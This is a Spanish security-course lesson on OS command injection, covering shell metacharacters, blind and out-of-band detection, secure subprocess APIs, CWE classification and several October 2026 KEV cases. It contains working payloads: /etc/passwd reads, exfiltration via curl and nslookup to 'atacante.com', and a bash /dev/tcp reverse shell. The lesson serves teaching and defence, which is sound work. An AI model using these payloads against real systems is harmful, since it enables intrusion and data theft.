

# Clase 095 — Inyección de comandos del sistema operativo

> Parte: **4 — Seguridad de aplicaciones web** · Fuente: *The Web Application Hacker's Handbook (Stuttard & Pinto)*
> ⏱️ Duración estimada: **100 min** · Nivel: **Avanzado**

---

## 🎯 Objetivo

Explotar la **inyección de comandos del SO (OS command injection)**: cuando una aplicación pasa entrada del usuario a un shell del sistema, un atacante puede ejecutar comandos arbitrarios. Es una de las vulnerabilidades de mayor impacto porque suele derivar en ejecución remota de código (RCE).

> ⚠️ **Ética**: RCE es de máximo impacto. Practica **exclusivamente** en DVWA, PortSwigger labs o entornos con autorización escrita. Ejecutar comandos en sistemas ajenos es un delito grave.

## 📚 Resultados de aprendizaje

Al finalizar, el alumno podrá:

1. **Identificar** puntos donde el input llega a un comando del sistema.
2. **Encadenar** comandos con metacaracteres del shell (`;`, `|`, `&&`, `$()`).
3. **Explotar** command injection ciega con técnicas temporales y OOB.
4. **Estabilizar** una shell reversa en un laboratorio controlado.
5. **Recomendar** evitar shells y usar APIs seguras como defensa.

## 🗺️ Temas

| # | Tema | Por qué importa |
|---|------|-----------------|
| 1 | Cómo el input llega al shell | Causa raíz del fallo |
| 2 | Metacaracteres de encadenado | Herramienta básica de explotación |
| 3 | Command injection ciega | Sin salida visible |
| 4 | Detección temporal y OOB | Confirmar sin ver output |
| 5 | Reverse shell en lab | Demostrar impacto real |
| 6 | Diferencias Linux/Windows | Sintaxis del shell varía |
| 7 | Defensa: evitar system(), allowlists | Cierre del fallo |
| 8 | Casos KEV de octubre de 2026: Ahsay, Collabora, SiteGuard | Cuatro productos, una misma familia y condiciones distintas |

## 🧠 Explicación en profundidad

### Del navegador a una shell del sistema operativo

La inyección de comandos del sistema operativo es de las vulnerabilidades más graves porque su
consecuencia directa es la **ejecución de código en el servidor** (RCE): el atacante deja de
manipular la aplicación y pasa a controlar la máquina que la aloja. Ocurre cuando la aplicación
toma entrada del usuario y la incorpora a un **comando del sistema** que ejecuta —por ejemplo,
una función que llama a `ping`, `nslookup`, `convert` o cualquier utilidad del sistema pasándole
un argumento que viene del usuario—. Si ese argumento no se controla, el atacante añade **sus
propios comandos**. Es la misma causa raíz que la SQLi —datos que cruzan a un intérprete— pero
el intérprete aquí es la **shell del sistema**, y por eso el impacto es máximo.

### Los metacaracteres que encadenan comandos

La shell interpreta ciertos caracteres como **separadores o encadenadores** de comandos, y son
la munición del ataque. `;` ejecuta un comando tras otro; `|` conecta la salida de uno con la
entrada del siguiente; `&&` y `||` ejecutan condicionalmente; y los **backticks** `` `...` `` o
`$(...)` ejecutan un comando y sustituyen su resultado. Si una aplicación construye
`ping -c 1 " + entrada` y el usuario envía `8.8.8.8; cat /etc/passwd`, la shell ejecuta el ping
**y después** el `cat`. Reconocer estos metacaracteres es entender de un vistazo cómo se
inyecta un comando.



### Cuando no ves la salida: inyección ciega

Como en SQL, muchas veces la aplicación ejecuta el comando pero **no muestra su salida**. Ahí se
aplica exactamente la misma lógica de la clase 092. Para **confirmar** que hay inyección sin ver
nada, se usa el **retardo**: inyectar `; sleep 5` (Linux) o `& timeout 5` (Windows) y observar si
la respuesta tarda cinco segundos de más. Para **extraer** datos, se usa el canal
**out-of-band**: hacer que el servidor ejecute `nslookup $(whoami).atacante.com` o `curl
http://atacante.com/$(cat secreto)`, de modo que el dato viaje en el nombre DNS o en la URL hacia
un servidor del atacante. Estas técnicas ciegas son las que encuentran las inyecciones que un
vistazo rápido pasaría por alto.

### Diferencias por sistema y la única defensa que funciona

Los detalles cambian entre **Linux y Windows**: distintos comandos (`cat` vs `type`, `id` vs
`whoami`), distinta sintaxis de encadenado y distintas rutas, así que identificar el sistema
operativo subyacente orienta el ataque. En un laboratorio autorizado, el objetivo final suele ser
una **reverse shell** (clase 073) que dé acceso interactivo. Pero el mensaje central de la clase
es la **defensa**, y aquí es tajante: la solución **no** es filtrar metacaracteres —siempre se
encuentra una forma de evadir el filtro—, sino **no invocar la shell en absoluto**. La causa raíz
es usar funciones como `system()`, `exec()` o `os.system()` que pasan una cadena a la shell; la
alternativa segura es usar APIs que ejecutan un programa **con sus argumentos como una lista**
(`subprocess.run([...], shell=False)` en Python, `execFile` en Node), de modo que la entrada del
usuario es **siempre** un argumento y **nunca** puede convertirse en un comando. Complementado con
**allowlists** de valores permitidos cuando de verdad hay que llamar a un programa externo, esto
elimina la clase entera de fallo, igual que las consultas parametrizadas eliminan la SQLi.

### Cómo lo nombra el catálogo CWE y qué cambia al priorizar

`CWE-78` (*neutralización incorrecta de elementos especiales en un comando del sistema operativo*) es la entrada que describe esta clase. Es de nivel *Base*, estable, y su padre es `CWE-77` (inyección de comandos en general, nivel *Class*). La distinción entre ambas decide qué escribes en un informe: si el atacante inyecta metacaracteres que el intérprete de órdenes interpreta (`;`, `&&`, `$(...)`), es `CWE-78`; si controla solo un **argumento** de una herramienta legítima (una opción que cambia su comportamiento), la entrada es `CWE-88`, hermana de `CWE-78` bajo `CWE-77`. Es una diferencia que cambia la defensa: la lista de argumentos sin *shell* evita la primera, y la segunda exige además validar qué argumentos son aceptables.

Los datos de 2025 explican por qué esta clase es prioritaria. `CWE-78` ocupa el puesto 9 del Top 25 de MITRE, pero en el **Top 10 de debilidades de KEV** de MITRE y CISA es la **primera**, con **20 CVE** en el catálogo de explotación conocida, el máximo de cualquier debilidad de la lista. Una inyección que da ejecución de órdenes sin interacción de un usuario es fácil de automatizar y de aprovechar a escala, y eso se refleja en la explotación observada. Lo que sigue es la lectura de esas cifras en la [clase 369](../../parte-20-debilidades-y-vulnerabilidades-cwe-cve-cvss/369-epss-cisa-kev-y-priorizacion-por-riesgo/README.md), y la corrección verificada (argumentos como lista y validación del destino) se demuestra en la [clase 370](../../parte-20-debilidades-y-vulnerabilidades-cwe-cve-cvss/370-ciclo-completo-de-la-debilidad-a-la-correccion-verificada/README.md).

<!-- octubre-2026-095 -->
### Casos reales de octubre de 2026: la misma familia en cuatro productos

En octubre de 2026 CISA incorporó al catálogo KEV varias vulnerabilidades de inyección de comandos. Verlas juntas enseña algo que un solo caso no muestra: la falla es siempre la misma (un dato externo llega a un intérprete que lo trata como instrucción), pero lo que decide la gravedad es **en qué condiciones se alcanza el punto vulnerable** y **con qué identidad corre el proceso**. Todos los datos siguientes proceden del registro CVE y de la entrada KEV de cada caso (consultados el 2026-11-10; véase el [informe del mes](../../../docs/casos-reales/2026-10/README.md)).

| CVE | Producto | CWE (registro) | Qué dice el registro | En KEV |
|---|---|---|---|---|
| `CVE-2026-105134` | Ahsay AhsayCBS (receptor de réplica, `UpdateReceivers.do`) | 77 y 78 | un parámetro manipulado lleva a inyección de comandos del sistema operativo, de forma remota; el registro indica que existe un exploit público | 2026-10-14 |
| `CVE-2026-110447` | Collabora Online *Built-in CODE Server* (aplicación de Nextcloud) | 78 | inyección en `proxy.php` **cuando el servidor CODE no está en ejecución** (por ejemplo, tras un reinicio); no afecta al Collabora Online independiente | 2026-10-23 |
| `CVE-2026-106931` | EG Secure Solutions SiteGuard Server Edition | 78 | permite ejecutar comandos con privilegios de **root o SYSTEM** | 2026-10-20 |
| `CVE-2026-96951` | Microsoft Windows (Shell) | 77 | neutralización incorrecta de elementos especiales en un comando; Microsoft lo clasifica como elusión de una función de seguridad | 2026-10-13 |

Un caso más sirve de contraste temporal: `CVE-2016-3081` (Apache Struts, ejecución mediante el prefijo `method:` con invocación dinámica de métodos) tiene diez años y entró al catálogo el **2026-10-08**. KEV no dice quién lo explota ni contra qué, solo que CISA tiene evidencia de explotación; lo que sí permite concluir es que un sistema sin actualizar sigue siendo un blanco útil una década después.

**Qué enseña cada caso.**

1. **Ahsay: la cadena autenticación + inyección.** El mismo aviso del fabricante cubre `CVE-2026-105133` (autenticación incorrecta en la API, CWE-287) y `CVE-2026-105134` (inyección de comandos). El registro de cada CVE describe una vulnerabilidad por separado; **que se encadenen es una inferencia razonable, no un hecho documentado** en los registros. La lección práctica es que un panel de administración de copias de seguridad expuesto a Internet reúne dos fallos de distinta familia, y arreglar solo uno deja el otro. La inyección (`CVE-2026-105134`) tiene CVSS 10,0 en la puntuación del CNA y la autenticación (`CVE-2026-105133`), 7,3 en 3.1: la segunda parece «menor» y, sin embargo, es la que abre la puerta. Ambos se publicaron el 4 de octubre y entraron a KEV el 14, diez días después.
2. **Collabora: el estado del sistema como parte de la explotación.** La condición «el servidor CODE no está ejecutándose» significa que el punto vulnerable se alcanza por un camino de *recuperación*, no por el flujo normal. Es un patrón frecuente: el código que gestiona estados excepcionales (arranque, reinicio, error) recibe menos pruebas y menos revisión que el camino feliz. Defensivamente, esto cambia dos cosas: la revisión de código debe incluir los caminos de error, y los registros de reinicio de un servicio expuesto son una señal que merece correlación.
3. **SiteGuard: el privilegio multiplica el impacto.** El mismo error de inyección produce un compromiso distinto según quién ejecute el proceso. Con `root` o `SYSTEM`, la inyección es control total del equipo; con una cuenta de servicio sin privilegios, es acceso acotado a lo que esa cuenta puede hacer. De ahí que *mínimo privilegio* y *aislamiento del servicio* sean controles de **impacto**, no de prevención: no impiden la inyección, reducen lo que vale.
4. **Windows Shell: la clasificación importa.** El registro usa `CWE-77`, la forma general; los otros usan `CWE-78`, la específica del sistema operativo. La diferencia es de nivel de abstracción (77 es la inyección de comandos en general; 78 es la que acaba en un shell del sistema operativo). Para el análisis de causa raíz conviene el CWE más específico que el hecho sostenga, y para la priorización da igual: lo que decide el plazo es KEV, la automatización y el impacto, no el número del CWE (clase [369](../../parte-20-debilidades-y-vulnerabilidades-cwe-cve-cvss/369-epss-cisa-kev-y-priorizacion-por-riesgo/README.md)).

5. **PAN-OS: autenticado no significa seguro.** `CVE-2026-0322` (`CWE-94`, inyección de código) afecta a la interfaz de gestión de PAN-OS: un atacante **autenticado y con acceso de red a esa interfaz** ejecuta código con privilegios de root en el cortafuegos (versiones anteriores a 12.2.4, 12.1.10-h2, 11.2.16 y 11.1.16-h3; Cloud NGFW no está afectado). Se publicó y entró a KEV el mismo día, el 2026-10-14, con CVSS 4.0 de 8,6 según el CNA y un EPSS de solo 1,7 %. El propio fabricante indica que el riesgo se reduce si el acceso a la interfaz de gestión se limita a direcciones internas de confianza: la exposición, no la severidad, fue la variable decisiva. Es además un recordatorio de que la inyección de *código* (`CWE-94`) y la de *comandos* (`CWE-77`/`78`) son hermanas: en la primera el dato se interpreta como código del propio lenguaje o plataforma; en la segunda, como orden del sistema operativo.

**Cómo se previene, y cómo se demuestra.** La defensa estructural es **no construir líneas de shell con datos externos**: pasar los argumentos como lista (`argv`) a la API del lenguaje, validar el valor con una lista blanca estricta y rechazar los que empiecen por `-` para que no se interpreten como opciones. El laboratorio ([README](../../../labs/octubre-2026-casos-reales/README.md)) implementa las dos versiones en `destinos_y_rutas.py`: `linea_de_shell_vulnerable` produce la línea que un servidor ingenuo pasaría a `sh -c` (no se ejecuta nada), `comandos_que_ejecutaria_un_shell` cuenta cuántas órdenes vería un shell, y `argv_seguro` devuelve la lista segura o `None`. La prueba de que la corrección funciona es doble: los valores `8.8.8.8; id`, `$(id)`, `` `id` `` y `-oProxy=x` se rechazan, y un nombre legítimo produce exactamente `["ping", "-c", "1", "--", "ejemplo.test"]`. Una limitación honesta: el modelo es una simplificación de un shell POSIX; no sustituye a una revisión del código real ni cubre otros intérpretes.

**Detección y respuesta.** Si no se puede parchear de inmediato, las señales defendibles son procesos hijo inesperados de un servicio web o de aplicación (un servidor de réplica que lanza `sh`, `cmd.exe` o `powershell.exe`), conexiones salientes nuevas desde el servicio y archivos nuevos en directorios escribibles por él. Ninguna prueba por sí sola una intrusión, y los avisos de los fabricantes no publican indicadores de compromiso para estos CVE en los registros consultados: no los inventes. Con la inyección en KEV y privilegio alto, BOD 26-04 recomienda además un **triaje forense** del activo: parchear cierra la puerta, no demuestra que nadie haya entrado ya.

## 📖 Definiciones y características

- **OS command injection**: ejecución de comandos del sistema vía input no sanitizado. Característica: suele acabar en RCE.
- **Metacaracter de shell**: símbolo que combina comandos (`;`, `&&`, `|`, `` ` ``, `$()`). Característica: rompe el comando previsto.
- **Blind command injection**: no hay output; se infiere por tiempo o interacción externa. Característica: se confirma con `sleep` o `nslookup`.
- **Reverse shell**: la víctima conecta de vuelta al atacante. Característica: da control interactivo en el lab.
- **Argument injection**: se inyectan flags a un binario, no comandos nuevos. Característica: más sutil pero explotable.
- **Allowlist**: lista cerrada de valores permitidos. Característica: defensa robusta frente a blocklists.

## 📔 Glosario

| Término | Definición concisa |
|---------|--------------------|
| Inyección de comandos | Entrada del usuario ejecutada como comando del sistema |
| RCE | Ejecución remota de código; el impacto de esta clase |
| Shell del sistema | Intérprete al que llega la entrada sin controlar |
| Metacaracter | `;` `&&` backtick `$()` y la barra vertical; encadenan o sustituyen comandos |
| `system()` / `exec()` | Funciones que pasan una cadena a la shell; la causa raíz |
| Inyección ciega | El comando se ejecuta pero no se ve la salida |
| Confirmación por tiempo | `sleep`/`timeout` para detectar sin ver la salida |
| Out-of-band | Exfiltrar por DNS/HTTP a un servidor del atacante |
| Reverse shell | Acceso interactivo obtenido tras el RCE |
| Diferencias Linux/Windows | Comandos y sintaxis distintos según el SO |
| shell=False | Ejecutar con argumentos como lista, sin invocar la shell |
| execFile / subprocess | APIs que separan programa y argumentos |
| Allowlist | Lista de valores permitidos cuando hay que llamar a un programa |
| No filtrar, no invocar | La defensa: evitar la shell, no perseguir metacaracteres |

## 🧰 Herramientas y preparación

- **DVWA** (*Command Injection*) y **PortSwigger labs** de OS command injection.
- **Burp** para editar peticiones.
- **netcat** para escuchar la reverse shell en tu propia máquina de laboratorio.

```bash
# En tu máquina atacante (lab): escuchar
nc -lvnp 4444
```

## 🧪 Laboratorio guiado

> ⚠️ Solo en DVWA/labs propios y aislados.

1. En DVWA → *Command Injection*, envía una IP normal (`127.0.0.1`) y observa el `ping`.
2. Encadena un comando: `127.0.0.1; whoami` y verifica que se ejecuta.
3. Prueba otros separadores: `| id`, `&& uname -a`, `$(id)`.
4. Para command injection **ciega** (sin output), confirma con tiempo: `127.0.0.1; sleep 5`.
5. Alternativa OOB: `127.0.0.1; nslookup $(whoami).tu-collaborator` y observa la interacción DNS.
6. En un lab aislado, lanza una reverse shell hacia tu netcat:

```bash
127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.0.0.5/4444 0>&1'
```

7. Documenta cada payload, la evidencia y el nivel de acceso obtenido.

## ✍️ Ejercicios

1. Enumera 5 metacaracteres distintos y en qué se diferencian al encadenar.
2. Confirma una inyección ciega solo con retardo temporal.
3. Adapta un payload de Linux a su equivalente en Windows (`&`, `%COMPUTERNAME%` o `%USERNAME%`).
4. Explica la diferencia entre command injection y argument injection.
5. Escribe la versión segura en Python usando `subprocess` con lista de argumentos (sin `shell=True`).
6. Diseña una allowlist para un campo que solo debe aceptar una IP.
7. Casos de octubre de 2026. Ejecuta `python -m unittest discover -s labs/octubre-2026-casos-reales/tests -v` y localiza las pruebas de `Comandos`. (a) Añade un valor de entrada que `argv_seguro` acepte pero que consideres peligroso, o demuestra que no existe. (b) Explica por qué `SiteGuard` y `Collabora` comparten familia de CWE pero merecen respuestas distintas. (c) Redacta una regla de detección con solo señales de proceso hijo y di qué falso positivo esperas. *Solución razonada:* (a) con la lista blanca de nombres de host y el `--`, una entrada válida solo puede ser un nombre; el riesgo restante es lógico (por ejemplo, apuntar a un host interno), que es SSRF, no inyección. (b) la condición de alcance (Collabora solo en el camino de reinicio) y el privilegio (SiteGuard como root/SYSTEM) cambian la urgencia y el aislamiento, aunque la causa sea la misma. (c) «proceso `sh` hijo de un servicio de réplica»; el falso positivo típico es un script de mantenimiento legítimo, por eso se compara con una línea base.

## 📝 Reto verificable

Consigue **ejecución de comandos** en DVWA nivel Medium (que filtra algunos caracteres) evadiendo el filtro, y demuestra el acceso listando `/etc/passwd`.
**Criterio de aceptación**: entregas el payload que evade el filtro, la evidencia de lectura de `/etc/passwd` y la corrección de código que eliminaría la vulnerabilidad.

## ⚠️ Errores comunes

| Síntoma / mensaje | Causa y cómo arreglar |
|-------------------|------------------------|
| El separador se filtra | Nivel Medium bloquea `;`/`&&`; prueba `\|` o encoding |
| No hay salida | Inyección ciega; usa tiempo u OOB |
| Reverse shell no conecta | Firewall/NAT del lab; revisa IP y puerto |
| Comando no existe en Windows | Sintaxis distinta; usa comandos nativos |
| Falso positivo por latencia | Repite la prueba de `sleep` varias veces |

## ❓ Preguntas frecuentes

**❓ ¿Por qué es tan grave?**
Porque ejecutar comandos suele equivaler a controlar el servidor (RCE), el peor escenario posible.

**❓ ¿`shell=True` es el problema?**
A menudo sí. Pasar input a un shell es la causa. Usa APIs que reciban argumentos como lista, sin intérprete de shell.

**❓ ¿Escapar caracteres basta?**
Es frágil. Mejor evitar el shell por completo y validar con allowlists estrictas.

## 🔗 Referencias

- Stuttard & Pinto, *The Web Application Hacker's Handbook*, cap. 9 (OS command injection).
- OWASP Command Injection: <https://owasp.org/www-community/attacks/Command_Injection>
- PortSwigger OS command injection: <https://portswigger.net/web-security/os-command-injection>
- CVE Program, registro de `CVE-2026-105134`, `CVE-2026-110447`, `CVE-2026-106931` y `CVE-2026-96951` — <https://www.cve.org/CVERecord?id=CVE-2026-105134> — descripción, CWE, versiones y CVSS de cada caso.
- CISA, *Known Exploited Vulnerabilities Catalog* (consulta del 2026-11-10) — <https://www.cisa.gov/known-exploited-vulnerabilities-catalog> — fecha de incorporación y estado de explotación de los cinco CVE.
- Collabora y Nextcloud, aviso del *Built-in CODE Server* — <https://github.com/CollaboraOnline/online/security/advisories/GHSA-g3vx-3m76-fghh> — condición de alcance (servidor CODE detenido) y versión corregida 26.4.303.
- Ahsay, anuncio de parche de `CVE-2026-105133` y `CVE-2026-105134` — <https://www.ahsay.com/en/company/announcements/patch-cve-105133-105134-update> — versiones corregidas.

## 📥 Material descargable

- 📄 [Guía en PDF](./clase-095-guia.pdf) — versión imprimible de esta clase.
- 🎞️ [Presentación (PPTX)](./clase-095-presentacion.pptx) — deck para proyectar en clase.

## ⬅️ Clase anterior

[Clase 094 — Inyección NoSQL](../094-inyeccion-nosql/README.md)

## ➡️ Siguiente clase

[Clase 096 — Cross-Site Scripting (XSS) reflejado](../096-cross-site-scripting-xss-reflejado/README.md)
